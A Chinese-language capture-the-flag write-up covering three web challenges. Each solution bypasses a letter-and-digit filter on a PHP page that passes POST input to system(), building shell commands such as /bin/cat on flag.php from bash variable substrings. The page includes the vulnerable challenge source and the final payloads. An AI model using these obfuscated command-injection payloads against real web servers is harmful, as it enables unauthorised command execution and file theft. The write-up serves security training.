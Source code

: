 ## web118（通过系统变量构造）
开启环境后发现只有一个输入框，右键查看源码后发现了hint，观察数据包也可以看到此处提交的请求方式是POST：
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638435378827-18da7089-ca91-4ef6-a5cc-9deb33af4eb9.png)
经过测试发现过滤了字母和数字？应该是吧，所以直接构造是不行了，要考虑其他姿势
看了hint是通过系统变量来构造，演示一下：
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638435990430-c79e2509-09fc-4fcb-85f1-4f3732496d28.png)
${PATH}是系统变量的路径，可以看到如果拼凑其中某几个字母那么是不是就可执行命令了？所以考虑拼凑执行nl
由于不同系统变量也不同，所以不能拿某个位置的字符去当做payload，要找个通用的，观察发现最后一层目录基本是/bin，那么就可考虑把这个/bin中的n拿出来：
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638436247900-3698b8bb-e318-41b0-85f8-00d7120f7a7c.png)
由于过滤了数字，所以采用第二种方法
有了n之后还要构造l，因为php默认目录想/var/www/html，那也可以把l拿出来了
构造：${PWD:~A}，由于我这里是linux所以不做演示，原理是一样的，提示又说flag在flag.php中，于是考虑通配符，所以最终构造：
payload:${PATH:~A}${PWD:~A} ????????
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638436421114-1349aeb1-b1a9-4717-9d30-2265b5cccaaf.png)
拿到flag

## web119（通过系统变量构造）
和上一题一样的界面，但是payload行不通了，猜测是过滤了${PATH}，那就不能用系统变量做了，不过思路也差不多，构造/bin/cat flag.php来拿到flag
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638437007877-c187e8c4-4419-4c26-8dce-b005a0f6dffa.png)
根据这两条命令可以拿到根目录下的文件，那如果再执行一次呢？
payload：${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}???，是不是就能拿到/???/???下的文件了
但我们想拿到的是/bin/cat，可以用最后一位t区分与其他的系统命令，所以目的构造/???/??t
那需要找一个可以表示t的变量，hint里给的是${HOME:${#HOSTNAME}:${#SHLVL}}，但由于系统不同我自己没有试验成功，所以
最终payload：${PWD:${#}:${#SHLVL}}???${PWD:${#}:${#SHLVL}}??${HOME:${#HOSTNAME}:${#SHLVL}} ????.???
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638437231048-55f6daad-fa9e-45e4-9f4b-744f7928108d.png)
拿到flag

## web120（通过系统变量构造）
```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|PATH|BASH|HOME|\/|\(|\)|\[|\]|\\\\|\+|\-|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```
这次终于看到代码知道过滤了什么了，不过这次要构造/bin/cat不是构造/???/??t了，而是/???/?a?
这个a怎么拿到呢，在php中，默认的用户是www-data，于是就可以通过${USER:~A}得到
此外还对输入加入了长度限制，上一题构造/的方法行不通了，所以使用下面这种：
payload：${PWD::${#SHLVL}}???${PWD::${#SHLVL}}?${USER:~A}? ????.???
翻到最下面就看到flag了
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638437907710-586b0ff6-1105-4e91-8411-6a5956ea960a.png)
